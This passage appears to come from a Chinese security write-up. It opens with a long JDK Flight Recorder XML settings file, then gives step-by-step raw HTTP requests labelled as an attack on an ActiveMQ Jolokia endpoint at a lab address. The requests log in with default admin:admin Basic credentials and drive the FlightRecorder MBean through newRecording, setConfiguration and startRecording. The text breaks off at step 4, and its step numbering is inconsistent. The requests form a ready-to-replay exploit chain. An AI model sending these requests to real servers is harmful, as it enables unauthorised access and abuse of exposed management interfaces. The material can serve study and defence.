    <event name="jdk.G1GarbageCollection">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.GCPhasePause">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.GCPhasePauseLevel1">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.GCPhasePauseLevel2">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.GCPhasePauseLevel3">
              
        <setting control="gc-enabled-high" name="enabled">false</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.GCPhasePauseLevel4">
              
        <setting control="gc-enabled-high" name="enabled">false</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.GCPhaseConcurrent">
              
        <setting control="gc-enabled-high" name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.GCPhaseConcurrentLevel1">
              
        <setting control="gc-enabled-high" name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.GCPhaseConcurrentLevel2">
              
        <setting control="gc-enabled-high" name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.GCReferenceStatistics">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.GCCPUTime">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.StringDeduplication">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.PromotionFailed">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.EvacuationFailed">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.EvacuationInformation">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.G1MMU">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.G1EvacuationYoungStatistics">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.G1EvacuationOldStatistics">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.GCPhaseParallel">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.G1BasicIHOP">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.G1AdaptiveIHOP">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.PromoteObjectInNewPLAB">
              
        <setting control="gc-enabled-high" name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.PromoteObjectOutsidePLAB">
              
        <setting control="gc-enabled-high" name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.ConcurrentModeFailure">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.AllocationRequiringGC">
              
        <setting control="gc-enabled-high" name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.TenuringDistribution">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.G1HeapRegionInformation">
              
        <setting control="gc-enabled-high" name="enabled">false</setting>
              
        <setting name="period">everyChunk</setting>
            
    </event>
        
    <event name="jdk.G1HeapRegionTypeChange">
              
        <setting control="gc-enabled-high" name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.ShenandoahHeapRegionInformation">
              
        <setting control="gc-enabled-high" name="enabled">false</setting>
              
        <setting name="period">everyChunk</setting>
            
    </event>
        
    <event name="jdk.ShenandoahHeapRegionStateChange">
              
        <setting control="gc-enabled-high" name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.ShenandoahEvacuationInformation">
              
        <setting control="gc-enabled-high" name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.OldObjectSample">
              
        <setting control="old-objects-enabled" name="enabled">true</setting>
              
        <setting control="old-objects-stack-trace" name="stackTrace">false</setting>
              
        <setting control="old-objects-cutoff" name="cutoff">0 ns</setting>
            
    </event>
        
    <event name="jdk.NativeMemoryUsage">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="period">1000 ms</setting>
            
    </event>
        
    <event name="jdk.NativeMemoryUsageTotal">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="period">1000 ms</setting>
            
    </event>
        
    <event name="jdk.CompilerConfiguration">
              
        <setting control="compiler-enabled" name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.CompilerStatistics">
              
        <setting control="compiler-enabled" name="enabled">true</setting>
              
        <setting name="period">1000 ms</setting>
            
    </event>
        
    <event name="jdk.Compilation">
              
        <setting control="compiler-enabled" name="enabled">true</setting>
              
        <setting control="compiler-compilation-threshold" name="threshold">1000 ms</setting>
            
    </event>
        
    <event name="jdk.CompilerPhase">
              
        <setting control="compiler-enabled" name="enabled">true</setting>
              
        <setting control="compiler-phase-threshold" name="threshold">60 s</setting>
            
    </event>
        
    <event name="jdk.CompilationFailure">
              
        <setting control="compiler-enabled-failure" name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.CompilerInlining">
              
        <setting control="compiler-enabled-failure" name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.JITRestart">
              
        <setting control="compiler-enabled" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.CodeCacheConfiguration">
              
        <setting control="compiler-enabled" name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.CodeCacheStatistics">
              
        <setting control="compiler-enabled" name="enabled">true</setting>
              
        <setting name="period">everyChunk</setting>
            
    </event>
        
    <event name="jdk.CodeCacheFull">
              
        <setting control="compiler-enabled" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.OSInformation">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.VirtualizationInformation">
             
        <setting name="enabled">true</setting>
             
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.ContainerConfiguration">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.ContainerCPUUsage">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">30 s</setting>
            
    </event>
        
    <event name="jdk.ContainerCPUThrottling">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">30 s</setting>
            
    </event>
        
    <event name="jdk.ContainerMemoryUsage">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">30 s</setting>
            
    </event>
        
    <event name="jdk.ContainerIOUsage">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">30 s</setting>
            
    </event>
        
    <event name="jdk.CPUInformation">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.ThreadContextSwitchRate">
              
        <setting control="compiler-enabled" name="enabled">true</setting>
              
        <setting name="period">10 s</setting>
            
    </event>
        
    <event name="jdk.CPULoad">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">1000 ms</setting>
            
    </event>
        
    <event name="jdk.ThreadCPULoad">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">10 s</setting>
            
    </event>
        
    <event name="jdk.CPUTimeStampCounter">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.SystemProcess">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">endChunk</setting>
            
    </event>
        
    <event name="jdk.ProcessStart">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.NetworkUtilization">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">5 s</setting>
            
    </event>
        
    <event name="jdk.CompilerQueueUtilization">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">10 s</setting>
            
    </event>
        
    <event name="jdk.InitialEnvironmentVariable">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.PhysicalMemory">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">everyChunk</setting>
            
    </event>
        
    <event name="jdk.SwapSpace">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">everyChunk</setting>
            
    </event>
        
    <event name="jdk.ObjectAllocationInNewTLAB">
              
        <setting control="gc-enabled-high" name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.ObjectAllocationOutsideTLAB">
              
        <setting control="gc-enabled-high" name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.ObjectAllocationSample">
              
        <setting control="object-allocation-enabled" name="enabled">true</setting>
              
        <setting control="allocation-profiling" name="throttle">150/s</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.NativeLibrary">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">everyChunk</setting>
            
    </event>
        
    <event name="jdk.NativeLibraryLoad">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.NativeLibraryUnload">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.ModuleRequire">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">endChunk</setting>
            
    </event>
        
    <event name="jdk.ModuleExport">
              
        <setting name="enabled">false</setting>
              
        <setting name="period">endChunk</setting>
            
    </event>
        
    <event name="jdk.FileForce">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">20 ms</setting>
            
    </event>
        
    <event name="jdk.FileRead">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">1 ms</setting>
              
        <setting name="throttle">100/s</setting>
            
    </event>
        
    <event name="jdk.FileWrite">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">1 ms</setting>
              
        <setting name="throttle">100/s</setting>
            
    </event>
        
    <event name="jdk.SocketRead">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">1 ms</setting>
              
        <setting name="throttle">100/s</setting>
            
    </event>
        
    <event name="jdk.SocketWrite">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">1 ms</setting>
              
        <setting name="throttle">100/s</setting>
            
    </event>
        
    <event name="jdk.Deserialization">
              
        <setting name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.SerializationMisdeclaration">
                
        <setting name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.InitialSecurityProperty">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.SecurityPropertyModification">
              
        <setting name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.SecurityProviderService">
              
        <setting name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.TLSHandshake">
              
        <setting name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.X509Validation">
              
        <setting name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.X509Certificate">
              
        <setting name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.JavaExceptionThrow">
              
        <setting control="enable-exceptions" name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting control="exceptions-throttle-rate" name="throttle">100/s</setting>
            
    </event>
        
    <event name="jdk.JavaErrorThrow">
              
        <setting control="enable-errors" name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.ExceptionStatistics">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">1000 ms</setting>
            
    </event>
        
    <event name="jdk.ActiveRecording">
              
        <setting name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.ActiveSetting">
              
        <setting name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.Flush">
              
        <setting name="enabled">false</setting>
              
        <setting name="threshold">0 ns</setting>
            
    </event>
        
    <event name="jdk.DataLoss">
              
        <setting name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.DumpReason">
              
        <setting name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.ZAllocationStall">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.ZPageAllocation">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">1 ms</setting>
            
    </event>
        
    <event name="jdk.ZRelocationSet">
              
        <setting name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.ZRelocationSetGroup">
              
        <setting name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.ZStatisticsCounter">
              
        <setting name="enabled">false</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.ZStatisticsSampler">
              
        <setting name="enabled">false</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.ZThreadPhase">
              
        <setting name="enabled">false</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.ZUncommit">
              
        <setting name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.ZYoungGarbageCollection">
              
        <setting name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.ZOldGarbageCollection">
              
        <setting name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.Deoptimization">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">false</setting>
            
    </event>
        
    <event name="jdk.HeapDump">
              
        <setting name="enabled">true</setting>
              
        <setting name="threshold">0 ns</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.DirectBufferStatistics">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">5 s</setting>
            
    </event>
        
    <event name="jdk.FinalizerStatistics">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">endChunk</setting>
            
    </event>
        
    <event name="jdk.JavaAgent">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">endChunk</setting>
            
    </event>
        
    <event name="jdk.NativeAgent">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">endChunk</setting>
            
    </event>
        
    <event name="jdk.DeprecatedInvocation">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="level">forRemoval</setting>
            
    </event>
      
    <!--
  Contents of the control element is not read by the JVM, it's used
  by JDK Mission Control and the 'jfr' tool to change settings that
  carry the control attribute.
  -->
        
    <control>
              
        <selection default="normal" label="Garbage Collector" name="gc">
                    
            <option label="Off" name="off">off</option>
                    
            <option label="Normal" name="normal">normal</option>
                    
            <option label="Detailed" name="detailed">detailed</option>
                    
            <option label="High, incl. TLABs/PLABs (may cause many events)" name="high">high</option>
                    
            <option label="All, incl. Heap Statistics (may cause long GCs)" name="all">all</option>
                  
        </selection>
              
        <condition false="false" name="gc-enabled-normal" true="true">
                    
            <or>
                          
                <test name="gc" operator="equal" value="normal"/>
                          
                <test name="gc" operator="equal" value="detailed"/>
                          
                <test name="gc" operator="equal" value="high"/>
                          
                <test name="gc" operator="equal" value="all"/>
                        
            </or>
                  
        </condition>
              
        <condition false="false" name="gc-enabled-detailed" true="true">
                    
            <or>
                          
                <test name="gc" operator="equal" value="detailed"/>
                          
                <test name="gc" operator="equal" value="high"/>
                          
                <test name="gc" operator="equal" value="all"/>
                        
            </or>
                  
        </condition>
              
        <condition false="false" name="gc-enabled-high" true="true">
                    
            <or>
                          
                <test name="gc" operator="equal" value="high"/>
                          
                <test name="gc" operator="equal" value="all"/>
                        
            </or>
                  
        </condition>
              
        <condition false="false" name="gc-enabled-all" true="true">
                    
            <test name="gc" operator="equal" value="all"/>
                  
        </condition>
              
        <selection default="low" label="Allocation Profiling" name="allocation-profiling">
                    
            <option label="Off" name="off">0/s</option>
                    
            <option label="Low" name="low">150/s</option>
                    
            <option label="Medium" name="medium">300/s</option>
                    
            <option label="High" name="high">1000/s</option>
                    
            <option label="Maximum" name="maximum">1000000000/s</option>
                  
        </selection>
              
        <condition false="false" name="object-allocation-enabled" true="true">
                    
            <not>
                          
                <test name="allocation-profiling" operator="equal" value="off"/>
                        
            </not>
                  
        </condition>
              
        <selection default="normal" label="Compiler" name="compiler">
                    
            <option label="Off" name="off">off</option>
                    
            <option label="Normal" name="normal">normal</option>
                    
            <option label="Detailed" name="detailed">detailed</option>
                    
            <option label="All" name="all">all</option>
                  
        </selection>
              
        <condition false="true" name="compiler-enabled" true="false">
                    
            <test name="compiler" operator="equal" value="off"/>
                  
        </condition>
              
        <condition false="false" name="compiler-enabled-failure" true="true">
                    
            <or>
                          
                <test name="compiler" operator="equal" value="detailed"/>
                          
                <test name="compiler" operator="equal" value="all"/>
                        
            </or>
                  
        </condition>
              
        <condition false="100 ms" name="compiler-sweeper-threshold" true="0 ms">
                    
            <test name="compiler" operator="equal" value="all"/>
                  
        </condition>
              
        <condition name="compiler-compilation-threshold" true="1000 ms">
                    
            <test name="compiler" operator="equal" value="normal"/>
                  
        </condition>
              
        <condition name="compiler-compilation-threshold" true="100 ms">
                    
            <test name="compiler" operator="equal" value="detailed"/>
                  
        </condition>
              
        <condition name="compiler-compilation-threshold" true="0 ms">
                    
            <test name="compiler" operator="equal" value="all"/>
                  
        </condition>
              
        <condition name="compiler-phase-threshold" true="60 s">
                    
            <test name="compiler" operator="equal" value="normal"/>
                  
        </condition>
              
        <condition name="compiler-phase-threshold" true="10 s">
                    
            <test name="compiler" operator="equal" value="detailed"/>
                  
        </condition>
              
        <condition name="compiler-phase-threshold" true="0 s">
                    
            <test name="compiler" operator="equal" value="all"/>
                  
        </condition>
              
        <selection default="normal" label="Method Profiling" name="method-profiling">
                    
            <option label="Off" name="off">off</option>
                    
            <option label="Normal" name="normal">normal</option>
                    
            <option label="High" name="high">high</option>
                    
            <option label="Maximum (High Overhead)" name="max">max</option>
                  
        </selection>
              
        <condition name="method-sampling-java-interval" true="999 d">
                    
            <test name="method-profiling" operator="equal" value="off"/>
                  
        </condition>
              
        <condition name="method-sampling-java-interval" true="20 ms">
                    
            <test name="method-profiling" operator="equal" value="normal"/>
                  
        </condition>
              
        <condition name="method-sampling-java-interval" true="10 ms">
                    
            <test name="method-profiling" operator="equal" value="high"/>
                  
        </condition>
              
        <condition name="method-sampling-java-interval" true="1 ms">
                    
            <test name="method-profiling" operator="equal" value="max"/>
                  
        </condition>
              
        <condition name="method-sampling-native-interval" true="999 d">
                    
            <test name="method-profiling" operator="equal" value="off"/>
                  
        </condition>
              
        <condition name="method-sampling-native-interval" true="20 ms">
                    
            <or>
                          
                <test name="method-profiling" operator="equal" value="normal"/>
                          
                <test name="method-profiling" operator="equal" value="high"/>
                          
                <test name="method-profiling" operator="equal" value="max"/>
                        
            </or>
                  
        </condition>
              
        <condition false="true" name="method-sampling-enabled" true="false">
                    
            <test name="method-profiling" operator="equal" value="off"/>
                  
        </condition>
              
        <selection default="once" label="Thread Dump" name="thread-dump">
                    
            <option label="Off" name="off">999 d</option>
                    
            <option label="At least Once" name="once">everyChunk</option>
                    
            <option label="Every 60 s" name="60s">60 s</option>
                    
            <option label="Every 10 s" name="10s">10 s</option>
                    
            <option label="Every 1 s" name="1s">1 s</option>
                  
        </selection>
              
        <condition false="true" name="thread-dump-enabled" true="false">
                    
            <test name="thread-dump" operator="equal" value="999 d"/>
                  
        </condition>
              
        <selection default="throttled" label="Exceptions" name="exceptions">
                    
            <option label="Off" name="off">off</option>
                    
            <option label="Errors and 100 Exceptions Per Second" name="throttled">throttled</option>
                    
            <option label="Errors and All Exceptions" name="all">all</option>
                  
        </selection>
              
        <condition false="false" name="enable-errors" true="true">
                    
            <or>
                          
                <test name="exceptions" operator="equal" value="throttled"/>
                          
                <test name="exceptions" operator="equal" value="all"/>
                        
            </or>
                  
        </condition>
              
        <condition false="false" name="enable-exceptions" true="true">
                    
            <or>
                          
                <test name="exceptions" operator="equal" value="throttled"/>
                          
                <test name="exceptions" operator="equal" value="all"/>
                        
            </or>
                  
        </condition>
              
        <condition false="100/s" name="exceptions-throttle-rate" true="off">
                    
            <test name="exceptions" operator="equal" value="all"/>
                  
        </condition>
              
        <selection default="types" label="Memory Leak Detection" name="memory-leaks">
                    
            <option label="Off" name="off">off</option>
                    
            <option label="Object Types" name="types">types</option>
                    
            <option label="Object Types + Allocation Stack Traces" name="stack-traces">stack-traces</option>
                    
            <option label="Object Types + Allocation Stack Traces + Path to GC Root" name="gc-roots">gc-roots</option>
                  
        </selection>
              
        <condition false="true" name="old-objects-enabled" true="false">
                    
            <test name="memory-leaks" operator="equal" value="off"/>
                  
        </condition>
              
        <condition false="false" name="old-objects-stack-trace" true="true">
                    
            <or>
                          
                <test name="memory-leaks" operator="equal" value="stack-traces"/>
                          
                <test name="memory-leaks" operator="equal" value="gc-roots"/>
                        
            </or>
                  
        </condition>
              
        <condition false="0 ns" name="old-objects-cutoff" true="1 h">
                    
            <test name="memory-leaks" operator="equal" value="gc-roots"/>
                  
        </condition>
              
        <text contentType="timespan" label="Locking Threshold" minimum="0 s" name="locking-threshold">20 ms</text>
              
        <text contentType="method-filter" description="A filter can be an annotation (@jakarta.ws.rs.GET), a full qualified class name (com.example.Foo), a fully qualified method reference (java.lang.HashMap::resize) or a class initializer (::&lt;clinit&gt;). Use &lt;init&gt; for constructors. Separate multiple filters with semicolon." label="Method Timing Filter" name="method-timing"/>
              
        <text contentType="method-filter" description="A filter can be an annotation (@jakarta.ws.rs.GET), a full qualified class name (com.example.Foo), a fully qualified method reference (java.lang.HashMap::resize) or a class initializer (::&lt;clinit&gt;). Use &lt;init&gt; for constructors. Separate multiple filters with semicolon." label="Method Trace Filter" name="method-trace"/>
              
        <flag label="Class Loading" name="class-loading">false</flag>
            
    </control>
    
</configuration>

```

开始攻击：

1. 新建记录

```
POST /api/jolokia HTTP/1.1
Host: 192.168.240.130:8161
Authorization: Basic YWRtaW46YWRtaW4=
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=pmgr5nmbcazq10lptyiipck8b
Connection: close
Origin:http://192.168.240.130
Content-Length:136

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "newRecording",
    "arguments": []
}
```



2. 修改配置

```
POST /api/jolokia HTTP/1.1
Host: 192.168.240.130:8161
Authorization: Basic YWRtaW46YWRtaW4=
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=pmgr5nmbcazq10lptyiipck8b
Connection: close
Origin:http://192.168.240.130
Content-Length:59272

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "setConfiguration",
    "arguments": [1,"..."]
}
```



1. 开始录制

```
POST /api/jolokia HTTP/1.1
Host: 192.168.240.130:8161
Authorization: Basic YWRtaW46YWRtaW4=
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=pmgr5nmbcazq10lptyiipck8b
Connection: close
Origin:http://192.168.240.130
Content-Length:139

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "startRecording",
    "arguments": [1]
}
```



4. 结束录制

```
POST /api/jolokia HTTP/1.1
Host: 192.168.240.130:8161
Authorization: Basic YWRtaW46YWRtaW4=
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
